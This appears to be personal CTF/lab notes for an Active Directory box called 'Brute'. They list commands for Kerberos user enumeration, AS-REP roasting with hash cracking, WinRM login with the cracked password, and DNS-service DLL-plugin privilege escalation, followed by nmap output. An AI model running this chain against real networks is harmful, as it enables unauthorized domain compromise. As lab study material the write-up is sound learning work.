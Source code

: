 ```yaml
---
title: Brute
created: '2020-10-01T16:49:24.034Z'
modified: '2020-10-01T18:44:34.651Z'
---
```


# Brute
- IP: `172.31.3.3`
- OS: `Active Directory`
## Enumeration
### Writeup
We try to enumerate usernames and find 4.
We perform an ASREPRoast on these names: `GetNPUsers.py -usersfile users -dc-ip 172.31.3.3 -outputfile ASREPHash BRUTE.CSL/`
We get a hash for `Tess` and crack it to `Unique1`: `john --wordlist=/usr/share/wordlists/rockyou.txt ASREPHash`
We can login to winrm: `crackmapexec winrm -u tess -p Unique1 --continue-on-success 172.31.3.3`
`evil-winrm -i 172.31.3.8 -u tess -p Unique1`

`upload plugin.dll`
`dnscmd /config /serverlevelplugindll C:\Users\Tess\Documents\plugin.dll`
`sc.exe stop dns`
`sc.exe start dns`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.3.3`
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-10-01 16:55:19Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRUTE
|   NetBIOS_Domain_Name: BRUTE
|   NetBIOS_Computer_Name: BRUTE-DC
|   DNS_Domain_Name: brute.csl
|   DNS_Computer_Name: Brute-DC.brute.csl
|   DNS_Tree_Name: brute.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-01T16:57:51+00:00
| ssl-cert: Subject: commonName=Brute-DC.brute.csl
| Issuer: commonName=Brute-DC.brute.csl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-26T20:13:21
| Not valid after:  2020-11-25T20:13:21
| MD5:   4508 b6eb 2a3d 87ff ad65 9c3e 14de 07b5
|_SHA-1: ef51 fe08 c315 ac7f 0dc5 3a22 b264 d28b 7fd4 153a
|_ssl-date: 2020-10-01T16:58:07+00:00; +2s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49743/tcp open  msrpc         Microsoft Windows RPC
```

- `nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='BRUTE',userdb=/usr/share/wordlists/SecLists/Usernames/Names/names.txt 172.31.3.3`
```
PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     darleen@BRUTE
|     tess@BRUTE
|     malcolm@BRUTE
|_    patrick@BRUTE
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
